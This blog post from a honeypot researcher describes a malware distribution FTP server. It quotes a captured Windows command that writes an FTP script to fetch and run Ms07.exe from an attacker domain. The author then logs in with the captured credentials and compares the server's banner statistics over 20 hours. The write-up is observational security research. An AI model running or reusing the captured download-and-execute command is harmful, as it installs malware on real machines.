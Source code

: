 ```yaml
---
title: "Iteolih: If you can't touch it ..."
authors: ["Markus Koetter"]
date: "2009-07-21"
tags: 
  - "ftp"
  - "iteolih"
---
```

{{<figure src="images/banner.png" alt="Banner" width="50%">}}

While playing with the current hsoc code, I got attacked, and saw an offer to download something from somewhere.  
`  
cmd /c echo open v1.usbupdatestrings.at 4356 > i&echo user ik ik >> i &echo binary >> i &echo get Ms07.exe >> i &echo quit >> i &ftp -n -s:i &Ms07.exe  
`  
The offer to download something was not that unexpected, we are working hard to get these offers, so we can grab copies of something, but the location was interesting. Obviously they decided to go for a central service to deploy their malware, and to indicate that level of professionalism on first sight, they use(d) a domain.  
  
To honor their effort, I decided to give them a visit ...  
  
`  
lftp ftp://ik:ik@v1.usbupdatestrings.at:4356  
`  
To allow having a look on the whole traffic, I decided to run lftp in debug mode  
`  
lftp ik@v1.usbupdatestrings.at:~> debug  
`  
And connect the service  
`  
lftp ik@v1.usbupdatestrings.at:~> ls  
---- Connecting to v1.usbupdatestrings.at (79.99.6.123) port 4356  
<--- 220-Serv-U FTP Server v5.0 for WinSock ready...  
<--- 220-.:::::::::::::::::::::::::::::::::::::::::::::::::.  
<--- 220-.::::|  
<--- 220-.::::| o0o-====== pe[ro =======-o0o  
<--- 220-.::::|________________________________________  
<--- 220-.:::::::::::::::::::::::::::::::::::::::::::::::::.  
<--- 220-.::::|  
<--- 220-.::::| o0o-========= USER STATS =========-o0o  
<--- 220-.::::|  
<--- 220-.::::| You are Connecting From 'The great Tor Network'  
<--- 220-.::::| 231352 users have visited in the last 24 hours  
<--- 220-.::::| This server has been running for  
<--- 220-.::::|14 Days, 1 Hours, 0 Mins, 43 Secs  
<--- 220-.::::|  
<--- 220-.::::|Amout of Logins Since Server Started: 1020885 total  
<--- 220-.::::| o0o-======== SERVER STATS ========-o0o  
<--- 220-.::::|  
<--- 220-.::::| Logged in Users: 52  
<--- 220-.::::| Total Kb downloaded: 60855849 Kb  
<--- 220-.::::| Total Kb uploaded: 1132 Kb  
<--- 220-.::::| Amout of Files downloaded: 731839  
<--- 220-.::::| Amout of Files uploaded: 11  
<--- 220-.::::| Average Speed: 50.161 Kb/sec  
<--- 220-.::::| Current Speed: 323.925 Kb/sec  
<--- 220-.::::| Free Disk Space: 92367.79 MB  
<--- 220-.::::|________________________________________  
<--- 220 .:::::::::::::::::::::::::::::::::::::::::::::  
`  
  
_If you can't touch it, you have to count it_, I appreciate the decision to share these numbers with everybody connecting.  
  
Today, I wanted to give them a new shot, fresh numbers, so I could compare the numbers to see if they seem reliable.  
For some reason the domain v1.usbupdatestrings.at is gone already, but the service was still running on the same ip.  
  
`  
<--- 220-.::::| o0o-========= USER STATS =========-o0o  
<--- 220-.::::|  
<--- 220-.::::| You are Connecting From 'The great Tor Network'  
<--- 220-.::::| 169188 users have visited in the last 24 hours  
<--- 220-.::::| This server has been running for  
<--- 220-.::::|14 Days, 21 Hours, 32 Mins, 28 Secs  
<--- 220-.::::|  
<--- 220-.::::|Amout of Logins Since Server Started: 1144533 total  
<--- 220-.::::| o0o-======== SERVER STATS ========-o0o  
<--- 220-.::::|  
<--- 220-.::::| Logged in Users: 7  
<--- 220-.::::| Total Kb downloaded: 66602829 Kb  
<--- 220-.::::| Total Kb uploaded: 1524 Kb  
<--- 220-.::::| Amout of Files downloaded: 804645  
<--- 220-.::::| Amout of Files uploaded: 16  
<--- 220-.::::| Average Speed: 51.746 Kb/sec  
<--- 220-.::::| Current Speed: 45.348 Kb/sec  
<--- 220-.::::| Free Disk Space: 92367.55 MB  
<--- 220-.::::|________________________________________  
<--- 220 .:::::::::::::::::::::::::::::::::::::::::::::  
`  
  
So, within 20hours, their ftp service had:  

  
- Amout of Logins (1144533 - 1020885) = **123648**
  
- Amout of Files downloaded (804645 - 731839) = **72806**
  
- Amout of Files uploaded (16 - 11) = 5
  
- Total Kb downloaded (66602829 - 60855849) = **5746980** (5612 Mbyte)
  

  
  
Getting copies of the malware from the service and submit them to virustotal, to verify if the five malware updates during the last 20 hours were worth the effort, is left as an exercise for the reader.
